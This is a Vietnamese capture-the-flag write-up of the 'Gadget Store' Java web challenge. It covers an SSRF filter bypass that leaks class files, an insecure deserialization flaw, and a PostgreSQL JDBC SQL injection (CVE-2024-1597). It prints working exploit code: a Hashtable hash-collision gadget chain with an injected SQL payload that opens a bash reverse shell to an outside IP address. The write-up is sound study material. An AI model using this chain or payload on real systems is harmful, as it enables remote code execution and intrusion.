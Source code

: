 +++
date = '2025-09-26T21:00:00+07:00'
draft = false
title = 'Phân tích nhanh gadget chain trong challenge Gadget Store'
+++

# Gadget Store

Đây là một challenge web trong khuôn khổ sự kiện Smart Banking 6th.

# Tóm tắt

Trang web là một cửa hàng cho phép người dùng mua hàng, các sản phẩm đã mua sẽ được lưu trong session. Khi người dùng export thông tin mua hàng, thông tin mua hàng sẽ được serialized và người dùng tải về, ngược lại người dùng cũng có thể upload file .ser (chứa data đã serialized) để import thông tin mua hàng mua mình.

# Soluction

Bài này mình không làm được cho đến tận khi có writeup nên dưới đây chỉ là những thông tin mình tổng hợp và tóm tắt lại.

## Leak source code via SSRF

Trang web tồn tại lỗ hổng tại chức năng preview hình ảnh, server sẽ truy cập url được cung cấp bởi người dùng và trả về dữ liệu được base64 encoded.

Server đã filter một số protocol đọc file:

```java=
public boolean isValidScheme(String scheme) {
        return !scheme.contains("jar") && !scheme.contains("ftp") && !scheme.contains("jrt") && !scheme.contains("file");
}
```

Tuy nhiên ta vẫn có thể sử dụng protocol `url:classpath://` để lấy được source code (class file).

## Insecure Deserialization

Tồn tại lỗ hổng Insecure Deserialization tại method:

```java
public String importPurchases(HttpSession session, Part filePart) {
        [...SNIP...]
        try {
            Object obj = ois.readObject();
            if (!(obj instanceof List)) {
                var13 = "error:An error occurred when importing purchases";
                break label60;
            }

            List<Gadget> purchases = (List)obj;
            session.setAttribute("purchases", purchases);
            var7 = "success:Imported " + purchases.size() + " purchases";
        } catch (Throwable var10) {
            [...SNIP...]
        }
        [...SNIP...]
}
```

Như đã nói, trang web cho phép người dùng import thông tin mua hàng thông qua deserialized data, và cũng không có cơ chế kiểm tra đầu vào nào được triển khai, dẫn đến ta có thể deserialize tùy ý.

## SQL Injection

Thư viện `org.postgresql:org.postgresql:42.7.1` tồn tại [lỗ hổng SQL Injection](https://github.com/advisories/GHSA-24rp-q3w6-vc56).
Để khai thác lỗ hổng này ta cần một số điều kiện.

![Điều kiện khai thác CVE-2024-1597](images/image.png)

Thật may mắn làm sao khi mọi điều kiện đều được thỏa mãn:

```java
private DataSource getDataSource() throws SQLException {
        String url = String.format("jdbc:postgresql://%s:5432/%s?user=%s&password=%s&ssl=false&connectTimeout=10", this.host, this.database, this.user, this.password);
        DataSource dataSource = new DataSource(this.getProperties(url));
        return dataSource;
}
```

## Exploit chain

Để có thể khai thác được SQLi, ta cần chạm được đến method `equals()` của class `UserDAO` kèm với một Map object chứa các value đã được ta kiểm soát.
Ta có thể đạt được điều này nhờ kết hợp với lỗ hổng Insecure Deserialize bên trên.
Có được gadget chain như sau:

```java
java.util.Hashtable.readObject()
    java.util.Hashtable.reconstitutionPut()
        java.util.AbstractMap.equals()
            dao.UserDAO.equals()
```

Về cơ bản chain này lợi dụng hash collision các key của Hashtable để gọi đến method `equals()` của key bên trong nó.
Nhưng mình sẽ giải thích kỹ một chút các ta tạo ra hash collision.

Dưới đây là code exploit

```java
UserDAO userDAO = new UserDAO();
Database db = new Database();
Field pwField = db.getClass().getDeclaredField("password");
pwField.setAccessible(true);
pwField.set(db, "9def3b1c8a63051a5cdf91ed1b35edfa&preferQueryMode=simple");

LinkedHashMap<String, Object> map = new LinkedHashMap<>();
map.put("amount", Double.valueOf(-100.0D));
map.put("username", "\n;CREATE TEMP TABLE output_table (line text);COPY output_table FROM PROGRAM $$bash -c \"bash -i >& /dev/tcp/160.250.134.146/4444 0>&1\"$$; --");
LinkedHashMap<String, Object> map1 = new LinkedHashMap<>();
map1.put("12", userDAO);
map1.put("34", map);
LinkedHashMap<String, Object> map2 = new LinkedHashMap<>();
map2.put("34", userDAO);
map2.put("12", map);

Hashtable<Object, Object> hashtable = new Hashtable<>();
hashtable.put(map1, 111);
hashtable.put(map2, 222);
```

Khi hashtable được deserialize, key của các phần tử sẽ được tính toán hashCode trước khi put vào hashtable. Khi có hai key có cùng 1 hash, nó sẽ kiểm tra xem 2 key có giống nhau không bằng cách gọi hàm `equals()` của key.

![image](images/image-1.png)

Sau đây mình sẽ phân tích tại sao code exploit trên có thể tạo ra được hash collision.
Trước tiên ta cần biết cách class `LinkedHashMap` tính hashCode.
Về bản chất class `LinkedHashMap` không implement method `hashCode()` nên nó sử dụng method này của class `AbstractMap`.

![alt text](images/image-2.png)

Method `hashCode()` của entry (`LinkedHashMap$Entry`)

![alt text](images/image-3.png)

Nên ta có thể thay thế `LinkedHashMap` với những class extends `AbstractMap` và không tự triển khai method `hashCode()`.

Ví dụ ta có một object `linkedHasMap1` có 2 entry `<1, "string1">` và `<2, "string2">`, thì `hashCode` của nó sẽ là
```
hashCode(<1, "string1">) + hashCode(<2, "string2">) = hashCode(1) + hashCode("string1") + hashCode(2) + hashCode("string2")
```

Vậy ở code exploit phía trên `hashtable` có 2 `LinkedHashMap` với `hashCode` của `map1` là:
```
hashCode(<12, userDAO>) + hashCode(<34, map>) = hashCode(12) + hashCode(userDAO) + hashCode(34) + hashCode(map)
```
và `hashCode` của `map2`:
```
hashCode(<12, map>) + hashCode(<34, userDAO>) = hashCode(12) + hashCode(map) + hashCode(34) + hashCode(userDAO)
```
Rõ ràng là chúng bằng nhau với quy tắc hoán vị, vậy là ta đã thành công tạo ra hash collision để trigger được method `equals()`.

Phần còn lại của challenge là khai thác lỗ hổng SQL Injection để đọc được `/flag*.txt`

# Kết

Qua challenge này mình nhận ra một cách rõ ràng hơn là mình còn quá yếu trong món Java nói chung và Java Insecure Deserialization nói riêng, mình đã ngồi hơn 3 ngày chỉ để đi tìm gadget chain nhưng không được, tưởng "xa tận chân trời mà gần ngay trước mắt".